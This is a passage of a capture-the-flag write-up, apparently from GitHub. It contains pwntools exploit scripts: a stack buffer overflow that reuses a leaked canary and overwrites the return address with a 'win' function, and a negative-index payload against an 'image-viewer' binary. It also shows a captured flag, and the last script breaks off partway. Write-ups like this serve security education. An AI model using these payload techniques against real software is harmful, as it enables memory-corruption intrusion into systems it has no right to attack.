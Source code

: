 ```
# Get base to use the win function offset
function = u32(function)
log.info(f"function: {function}")
base = function - 75 - 0x9a0
win = base + 0x76d
log.info(f"base address: {base}")
win = p32(win)
log.info(str(win))
size = 96 + 4 + 8 + 4 + 1

p.recvuntil(b'quit', drop=True)
p.sendline(b'a')
p.recvuntil(b'len: ', drop=True)
p.sendline(str(size))
payload = b'a'*96 + canary + b'a'*8 + win
p.sendline(payload)

p.interactive()
```

image-viewer
============================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNC1pbWFnZS12aWV3ZXIiLCJpcCI6IjE0NC4xMzYuMjguMzYiLCJzZXNzaW9uIjoiNmVkNWQ1YjYtY2M1OS00ODc0LTk3NmYtMWNhMGEwMjIzYjRhIn0.V0fOO5Gr01Qs8G-BjZyLv7-PbeLwTD040m8Mbf1AtFY}
General overview of problems faced
----------------------------------------------------------------
Have to somehow get the program to open the flag file.
images holds an array of data structures called image.
The image data structure contains an int and a char *, taking up a total of 8 bytes.
Index is fetched using an atoi to the user input.
Online searches say atoi is vulnerable because it has unpredicatable results if the string cannot be casted to an int properly.
Through testing, most invalid casts make atoi return 0.
However, we cannot use this since it'd be the same as retrieving images[0].
In the binary, buf and images are stored next to each other. We'd probably be able to access them through negative indexing.
For some reason, fgets only accepts 126 bytes even though the buf size is 128. I know fgets accepts n - 1 so it should accept 127, but it doesn't.
Input at where index -2 would be (16 bytes backwards), to avoid any complications with the final part of the payload for the above reason.
Have to maintain the same order as the struct. Int first and then address to string.
Address to buf found in binary. Adjust to where we place our flag.
Need to insert -2 as hex to ensure the id check passes.
Script/Command used
--------------------------------------------------------------
```
# Input password
p.recvuntil(b'> ', drop=True)
# Fill up 16 bytes
payload = b'password123'# + b'\
p.sendline(payload)

# Work with 16 byte blocks for easier visualiation.
p.recvuntil(b'> ', drop=True)
# Input index -2 
payload = b'-2' + b'a'*14
# print(len(payload))
# Place filename + fill to 16 bytes
payload += b'flag' + b'\0' * 12
# print(len(payload))
# Fill until remaining 16 bytes
payload += b'\0' * (16 * 5)
```
